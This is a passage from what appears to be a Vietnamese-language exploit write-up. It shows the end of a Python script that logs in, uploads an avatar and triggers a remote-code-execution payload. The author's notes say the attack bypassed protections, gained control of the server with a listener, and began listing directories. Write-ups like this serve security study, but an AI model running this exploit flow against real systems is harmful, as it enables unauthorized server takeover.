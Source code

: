 ```python
        return
    print("[*] Response Return: ", res)
    if res.get("success") and "mainAvatarName" in res:
        print("[🎯] RESULT:", res["mainAvatarName"])
    else:
        print("[-] Trigger Executed")

if __name__ == "__main__":
    print("[+] Login Nào:....")
    login()

    print("[+] Upload Avatar")
    avatar_id = upload_avartar()
    time.sleep(2)

    print("\n[+] Injection RCE Payload And Trigger RCE")
    injection_payload_trigger(avatar_id, RCE_PAYLOAD)
```
- Sau khi tôi thực hiện chạy mã python trên. và kiểm tra trình lắng nghe
![alt text](image-45.png)
- Tôi đã thành công bypass và có thể chiếm quyền 
![alt text](image-46.png)
- Tới đây cùng thực hiện ls / xem các thư mục 